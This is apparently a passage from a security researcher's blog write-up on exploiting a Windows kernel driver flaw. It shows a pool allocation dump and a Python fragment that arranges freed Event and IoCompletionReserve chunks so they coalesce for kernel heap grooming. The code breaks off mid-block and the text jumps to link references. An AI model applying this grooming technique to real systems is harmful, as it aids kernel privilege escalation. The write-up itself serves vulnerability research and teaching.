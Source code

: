  85d1f480 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f4c0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f520 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f560 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f5c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f600 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f660 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f6a0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f700 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f740 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f7a0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f7e0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f840 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f880 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f8e0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f920 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f980 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f9c0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fa20 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fa60 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fac0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fb00 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fb60 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fba0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fc00 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fc40 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fca0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fce0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fd40 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fd80 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fde0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fe20 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fe80 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fec0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1ff20 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1ff60 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1ffc0 size:   40 previous size:   60  (Allocated)  Even (Protected)
{% endhighlight %}

So we can see we have seperate freed chunks. But we want to coalesce them into a single 0x460 freed chunk. To achieve this, we need to set the `offset` for our chunks to 0x60 (The first pointing to 0xXXXXY060).

{% highlight python %}
            bin = []

            # object sizes
            CreateEvent_size         = 0x40
            IoCompletionReserve_size = 0x60
            combined_size            = CreateEvent_size + IoCompletionReserve_size

            # after the 0x20 chunk hole, the first object will be the IoCompletionReserve object
            offset = IoCompletionReserve_size   
            for i in range(offset, offset + (7 * combined_size), combined_size):
                try:
                    # chunks need to be next to each other for the coalesce to take effect
                    bin.append(khandlesd[obj + i])
                    bin.append(khandlesd[obj + i - IoCompletionReserve_size])
                except KeyError:

[FuzzySec]: https://twitter.com/FuzzySec
[sickness416]: https://twitter.com/sickness416
[skylined]: https://twitter.com/berendjanwever
[ryujin]: https://twitter.com/ryujin
[awe]: https://www.offensive-security.com/information-security-training/advanced-windows-exploitation/
[hevd]: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
[windriver]: http://www.jungo.com/st/products/windriver/
[advisory]: /advisories/src-2017-0026
[exploit]: /pocs/src-2017-0026.py.txt